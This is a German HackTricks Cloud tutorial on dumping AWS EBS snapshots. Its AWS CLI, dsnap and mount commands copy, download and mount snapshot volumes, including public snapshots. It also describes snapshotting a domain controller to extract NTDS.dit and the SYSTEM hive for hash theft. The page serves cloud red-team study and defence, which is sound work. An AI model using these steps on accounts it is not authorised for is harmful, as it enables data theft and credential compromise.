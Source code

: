 # AWS - EBS Snapshot Dump

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github Repositories einreichen.

</details>

## Überprüfen eines Snapshots lokal
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**Hinweis:** `dsnap` wird es Ihnen nicht erlauben, öffentliche Snapshots herunterzuladen. Um dies zu umgehen, können Sie eine Kopie des Snapshots in Ihrem persönlichen Konto erstellen und diesen herunterladen:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

Für weitere Informationen zu dieser Technik lesen Sie die Originalforschung unter [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Sie können dies mit Pacu mithilfe des Moduls [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots) durchführen.

## Überprüfen eines Snapshots in AWS

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Hängen Sie es in einer EC2-VM unter Ihrer Kontrolle ein** (es muss sich in derselben Region wie die Kopie des Backups befinden):

Schritt 1: Erstellen Sie ein neues Volume Ihrer bevorzugten Größe und Art, indem Sie zu EC2 –> Volumes gehen.

Um diese Aktion auszuführen, befolgen Sie diese Befehle:

* Erstellen Sie ein EBS-Volume, das an die EC2-Instanz angehängt werden soll.
* Stellen Sie sicher, dass das EBS-Volume und die Instanz in derselben Zone sind.

Schritt 2: Wählen Sie die Option "Volume anhängen", indem Sie mit der rechten Maustaste auf das erstellte Volume klicken.

Schritt 3: Wählen Sie die Instanz aus dem Instanz-Textfeld aus.

Um diese Aktion auszuführen, verwenden Sie den folgenden Befehl:

* Hängen Sie das EBS-Volume an.

Schritt 4: Melden Sie sich bei der EC2-Instanz an und listen Sie die verfügbaren Laufwerke mit dem Befehl `lsblk` auf.

Schritt 5: Überprüfen Sie, ob das Volume Daten enthält, indem Sie den Befehl `sudo file -s /dev/xvdf` verwenden.

Wenn die Ausgabe des obigen Befehls "/dev/xvdf: data" zeigt, bedeutet dies, dass das Volume leer ist.

Schritt 6: Formatieren Sie das Volume im ext4-Dateisystem mit dem Befehl `sudo mkfs -t ext4 /dev/xvdf`. Alternativ können Sie auch das xfs-Format verwenden, indem Sie den Befehl `sudo mkfs -t xfs /dev/xvdf` verwenden. Beachten Sie, dass Sie entweder ext4 oder xfs verwenden sollten.

Schritt 7: Erstellen Sie ein Verzeichnis Ihrer Wahl, um das neue ext4-Volume zu mounten. Verwenden Sie beispielsweise den Namen "newvolume".

Um diese Aktion auszuführen, verwenden Sie den Befehl `sudo mkdir /newvolume`.

Schritt 8: Hängen Sie das Volume am Verzeichnis "newvolume" mit dem Befehl `sudo mount /dev/xvdf /newvolume/` an.

Schritt 9: Wechseln Sie zum Verzeichnis "newvolume" und überprüfen Sie den Festplattenspeicher, um das gemountete Volume zu validieren.

Um diese Aktion auszuführen, verwenden Sie die folgenden Befehle:

* Wechseln Sie zum Verzeichnis `/newvolume`.
* Überprüfen Sie den Festplattenspeicher mit dem Befehl `df -h .`. Die Ausgabe dieses Befehls sollte den freien Speicherplatz im Verzeichnis "newvolume" anzeigen.

Dies können Sie mit Pacu mithilfe des Moduls `ebs__explore_snapshots` tun.

## Überprüfen eines Snapshots in AWS (mit cli)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Schattenkopie

Jeder AWS-Benutzer, der die Berechtigung **`EC2:CreateSnapshot`** besitzt, kann die Hashes aller Domänenbenutzer stehlen, indem er einen **Snapshot des Domänencontrollers** erstellt, ihn an eine von ihm kontrollierte Instanz anhängt und die Dateien NTDS.dit und SYSTEM-Registrierungshive für die Verwendung mit Impacket's secretsdump-Projekt exportiert.

Sie können dieses Tool verwenden, um den Angriff zu automatisieren: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) oder Sie könnten eine der vorherigen Techniken verwenden, nachdem Sie einen Snapshot erstellt haben.

## Referenzen

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen** oder **HackTricks im PDF-Format herunterladen** möchten, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>

